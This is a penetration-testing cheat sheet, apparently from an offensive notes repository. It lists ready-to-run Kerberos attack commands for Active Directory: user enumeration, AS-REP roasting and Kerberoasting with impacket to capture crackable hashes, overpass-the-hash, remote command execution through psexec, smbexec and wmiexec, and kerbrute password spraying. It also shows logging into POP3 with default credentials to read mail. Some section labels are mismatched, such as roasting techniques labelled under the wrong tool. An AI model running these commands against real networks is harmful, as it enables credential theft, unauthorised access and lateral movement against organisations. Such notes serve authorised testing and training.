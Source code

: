 Check [Kerberos dedicated](../post-exploitation/windows/ad/kerberos-attacks.md) section

```bash
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='DOMAIN.LOCAL'" IP
use auxiliary/gather/kerberos_enumusers # MSF

# Check for Kerberoasting: 
GetNPUsers.py DOMAIN-Target/ -usersfile user.txt -dc-ip <IP> -format hashcat/john

# GetUserSPNs
ASREPRoast:
impacket-GetUserSPNs <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
impacket-GetUserSPNs <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>

# Kerberoasting: 
impacket-GetUserSPNs <domain_name>/<domain_user>:<domain_user_password> -outputfile <output_TGSs_file> 

# Overpass The Hash/Pass The Key (PTK):
python3 getTGT.py <domain_name>/<user_name> -hashes [lm_hash]:<ntlm_hash>
python3 getTGT.py <domain_name>/<user_name> -aesKey <aes_key>
python3 getTGT.py <domain_name>/<user_name>:[password]

# Using TGT key to excute remote commands from the following impacket scripts:

python3 psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python3 smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python3 wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass

# https://www.tarlogic.com/blog/como-funciona-kerberos/
# https://www.tarlogic.com/blog/como-atacar-kerberos/

python kerbrute.py -dc-ip IP -users /root/htb/kb_users.txt -passwords /root/pass_common_plus.txt -threads 20 -domain DOMAIN -outputfile kb_extracted_passwords.txt

# https://blog.stealthbits.com/extracting-service-account-passwords-with-kerberoasting/
# https://github.com/GhostPack/Rubeus
# https://github.com/fireeye/SSSDKCMExtractor
# https://gitlab.com/Zer1t0/cerbero
```

<br>

### 110 - Pop3
---

```bash
telnet 10.11.1.111
USER pelle@10.11.1.111
PASS admin

# or:

USER pelle
PASS admin

# List all emails
list

# Retrieve email number 5, for example
retr 9
```
